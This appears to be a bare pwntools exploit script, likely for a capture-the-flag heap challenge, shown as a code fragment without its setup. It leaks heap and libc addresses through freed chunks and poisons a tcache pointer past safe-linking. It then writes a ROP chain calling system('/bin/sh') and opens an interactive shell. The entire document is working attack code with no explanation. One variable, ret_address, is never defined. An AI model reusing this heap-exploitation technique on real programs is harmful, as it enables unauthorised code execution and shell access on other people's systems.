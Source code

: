 ```python


add(0, 0x68,b'a') 
add(1, 0x68,b'a') 
add(2, 0x68,b'a') 
add(3, 0x800,b'a') 
add(4, 0x68,b'a')

delete(2)
delete(1)
delete(3)

# leak heap
view(2)
p.recvuntil(b'Message: ')
heap_base =  u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')
heap_chunk1 = heap_base + 0x310
log.info(f'heap chunk1: {hex(heap_chunk1)}')

# leak libc
view(3)
p.recvuntil(b'Message: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x1d2cc0
print(hex(libc.address))

#get shell
add(5,0x100,b'a')
add(6,0x100,b'b')

chunk5 = heap_base + 0x3f0
print(hex(chunk5))

delete(6)
delete(5)
pop_rdi = 0x00000000001323a3
pl = b'a'*8 + p64(pop_rdi + libc.address)
pl += p64(next(libc.search(b'/bin/sh\x00'))) + p64(pop_rdi+libc.address+1) +p64(libc.sym.system)

edit(5,p64(heap_base>>12 ^ (ret_address)))
add(7,0x100,b'b')
add(8,0x100,pl)

p.interactive()
```